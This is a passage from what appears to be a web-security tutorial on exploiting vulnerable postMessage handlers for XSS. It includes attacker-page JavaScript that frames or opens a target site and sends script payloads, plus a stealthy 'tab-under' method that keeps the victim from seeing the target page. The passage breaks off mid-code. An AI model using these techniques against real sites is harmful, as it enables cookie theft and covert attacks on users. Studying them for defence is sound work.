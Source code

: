 An attacker can exploit this by _iframing (1)_ the above page, or by opening a top-level _window (2)_ to it. Then they need to send a `postMessage` to this window that will exploit the sink:

<pre class="language-html" data-title="https://attacker.com"><code class="lang-html">&#x3C;body>
  &#x3C;script>
    const iframe = document.createElement("iframe");
<strong>    iframe.src = "https://example.com";
</strong>    document.body.appendChild(iframe);

    // 1. Load it in an iframe, then use .contentWindow to get a reference for sending messages
    setTimeout(() => {
<strong>      iframe.contentWindow.postMessage("alert(1)", "*");
</strong>    }, 1000);

    // 2. After interaction, open a window and send a message to it
    onclick = () => {
<strong>      const w = window.open("https://example.com");
</strong>
      setTimeout(() => {
<strong>        w.postMessage("alert(2)", "*");
</strong>      }, 1000);
    };
  &#x3C;/script>
&#x3C;/body>
</code></pre>

Notably, cookies and other resources like localStorage are not available in a third-party context like an iframe where the top-level (address bar) origin is different from the target origin. The only exception to this is SameSite=None cookies which are readable or fetch same-origin resources without any CORS limitations.

This means that to really exploit an XSS, you need to **use a window** instead of an iframe because its **top-level** origin is the same as the target origin. You will be able to read any non-httpOnly cookies through `document.cookie`, or use any cookies in a `fetch()` without CORS limitations, gaining full XSS impact.

### Stealthier: tab-under method

Another stealthier way of doing the above is by never letting the user see the target website, only our attacker-controlled website. To do this, we can follow the idea below:

1. Victim visits the attacker's website
2. On interaction, use `window.open` to open a new window to an attacker's page again ("2nd window"). This will gain the focus of the browser now
3. Now the initial window changes its own location to the target page containing a vulnerable postMessage handler, this time in a top-level context
4. The 2nd window will now use `opener.postMessage` as its reference to the vulnerable domain and send the exploit to the postMessage handler. The resulting XSS will now have full access to cookies etc.

{% code title="https://attacker.com" %}
```html
<body>
  <script>
    // Code for 2nd tab:
    setTimeout(() => {
      // After the new tab is opened, send a message to its opener which will have become the target
      opener.postMessage("alert()", "*");
    }, 1000);

    // Code for 1st tab:
    onclick = () => {
      // Duplicate this tab, focus will go to new tab
      const w = window.open(location);
      // Stealthly change the location of the old tab to target
      location = "https://example.com";
```